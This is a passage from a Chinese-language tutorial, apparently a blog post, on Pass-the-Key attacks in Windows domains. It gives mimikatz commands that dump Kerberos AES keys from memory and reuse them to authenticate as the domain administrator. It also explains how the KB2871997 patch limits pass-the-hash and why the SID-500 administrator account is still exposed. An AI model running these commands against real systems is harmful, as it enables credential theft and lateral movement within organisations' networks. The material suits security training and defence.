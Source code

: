   

**使用 AES 进行 Key 传递攻击 (PTK,Pass The Key)**

前提：只适用于域环境，并且目标主机需要安装 KB2871997 补丁

**获取 AES 凭证**

```
privilege::debug
sekurlsa::ekeys          #获取kerberos加密凭证
```

![](https://mmbiz.qpic.cn/mmbiz_png/UZ1NGUYLEFj38BDjibVZuvg5ky151DSXRpVMwf9Fdb5szwiaarL5TAO0zic9jl8dQjyjA15BTIW5w3UdOlBo4fYUg/640?wx_fmt=png)

  

![](https://mmbiz.qpic.cn/mmbiz_png/UZ1NGUYLEFj38BDjibVZuvg5ky151DSXR5It316ialcHLtFmEvVHLLgcO69wvCyN5SAhHg2GO6lRia6nhxdfialriaQ/640?wx_fmt=png)

**利用获得到的 AES256 或 AES128 进行 Key 攻击**

```
privilege::debug
#使用AES-256进行Key传递攻击
sekurlsa::pth /user:administrator /domain:xie.com /aes256:1a39fa07e4c96606b371fe12334848efc60d8b3c4253ce6e0cb1a454c7d42083
#使用AES-128进行Key传递攻击
sekurlsa::pth /user:administrator /domain:xie.com /aes128:4728551c859bbe351e9c11b5d959163e
```

域控未打 KB2871997 补丁前，无法使用 Key 传递攻击

![](https://mmbiz.qpic.cn/mmbiz_png/UZ1NGUYLEFj38BDjibVZuvg5ky151DSXRAJbf192Iq76q4K917vQFbXfF8FRLMB0uwC6RKaRicMCUQxvpGxnnskQ/640?wx_fmt=png)

![](https://mmbiz.qpic.cn/mmbiz_png/UZ1NGUYLEFj38BDjibVZuvg5ky151DSXRCia0AmsnibagWg9bAibtMFlUyKyRD1U1Ys1wJxjxk8HT7MT91K79WGVtA/640?wx_fmt=png)

但是当我在域控上打上 KB2871997 补丁后，Ke 传递攻击仍然无法使用！这里不知道为什么。

![](https://mmbiz.qpic.cn/mmbiz_png/UZ1NGUYLEFj38BDjibVZuvg5ky151DSXROjwCnUdWSoYz1pXcaHibc59fYIibxhsiary5P2nUphh6Ticcl4S663dlLw/640?wx_fmt=png)

![](https://mmbiz.qpic.cn/mmbiz_png/UZ1NGUYLEFj38BDjibVZuvg5ky151DSXReyTRwiacZN24cSIxiaSCuKibkDgRoR5EQkEkbmKdgJqbgibCNOGibYiactzQ/640?wx_fmt=png)

  

![](https://mmbiz.qpic.cn/mmbiz_gif/UZ1NGUYLEFj38BDjibVZuvg5ky151DSXRuuNsibqqHiaN2j2K0NoyqVyU6xBibvO7nvt7pLLckgQImV16iaCeuKCWvA/640?wx_fmt=gif)

  

**更新 KB2871997 补丁产生的影响**  

微软在 2014 年 5 月发布了 KB2871997 和 KB2928120 两个补丁。KB2871997 针对 PTH 攻击，而 KB2928120 针对 GPP(Group Policy Preference)。KB2871997 补丁将使本地帐号不再可以用于远程接入系统，不管是 Network logon 还是 Interactive login。其后果就是：无法通过本地管理员权限对远程计算机使用 Psexec、WMI、smbexec、IPC 等，也无法访问远程主机的文件共享等。

在实际测试中，更新 KB2871997 之后，发现无法使用常规的哈希传递方法进行横向移动，但 administrator(SID=500) 账号例外，使用该账号的散列值依然可以进行哈希传递攻击。这里需要强调的是 SID=500 的账号。即使将 administrator 账号改名，也不会影响 SID 的值。所以，如果攻击者使用 SID 为 500 的账号进行哈希传递攻击，就不会受到 KB2871997 的影响。

**实验**
